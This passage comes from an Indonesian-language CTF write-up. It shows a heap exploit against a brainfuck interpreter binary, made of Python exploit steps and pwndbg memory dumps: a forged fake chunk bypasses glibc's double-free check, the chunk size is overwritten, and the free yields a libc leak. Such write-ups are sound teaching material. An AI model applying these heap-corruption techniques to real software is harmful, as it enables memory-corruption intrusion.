 ```py
create('.')
# pwndbg> dq $rebase((long*)&vmx)
# 0000555555756060     000055555575a270 000055555575a4d0
# 0000555555756070     0000000000000000 0000000000000000
# 0000555555756080     0000000000000000 0000000000000000
# 0000555555756090     0000000000000000 0000000000000000
# pwndbg> dq 0x55555575a4c0
# 000055555575a4c0     0000000000000000 0000000000000261
# 000055555575a4d0     0000000000000000 0000000000000000
#                                    ^^--------------------- mulai .data vmx[0]
# 000055555575a4e0     0000000000000000 0000000000000000
# 000055555575a4f0     0000000000000000 0000000000000000
```

karena perlu chunk dengan ukuran lebih besar dari ukuran sebenarnya, diperlukan “fake” chunk untuk bypass `"double free or corruption (!prev)"`.

```py
create('.')
create('.')
# pwndbg> dq $rebase((long*)&vmx)
# 0000555555756060     000055555575a270 000055555575a4d0
# 0000555555756070     000055555575a730 000055555575a990
# 0000555555756080     0000000000000000 0000000000000000
# 0000555555756090     0000000000000000 0000000000000000
```

dengan begitu ukuran chunk bisa diubah menjadi `(0x55555575a990-0x55555575a4d0) | PREV_INUSE = 0x4c1`. Dalam brainfuck, .data ptr hanya perlu di shift ke kiri sebanyak 8 kali untuk mencapai chunk metadata. Setelah itu, dengan `delete(0)` akan didapatkan libc leak.

```py
payload  = '<<<<<<<<' # shift kiri .data ptr
payload += '+' * (0xc0-0x60)
payload += '>++'
create(payload)
create('.')

run(0)
# pwndbg> dq 0x55555575a4c0
# 000055555575a4c0     0000000000000000 00000000000004c1
# 000055555575a4d0     0000000000000000 0000000000000000
# 000055555575a4e0     0000000000000000 0000000000000000
# 000055555575a4f0     0000000000000000 0000000000000000

delete(0)
# pwndbg> dq 0x55555575a4c0
# 000055555575a4c0     0000000000000000 00000000000004c1
# 000055555575a4d0     0000155555521ca0 0000155555521ca0 !!!!! leak
# 000055555575a4e0     0000000000000000 0000000000000000
# 000055555575a4f0     0000000000000000 0000000000000000
```
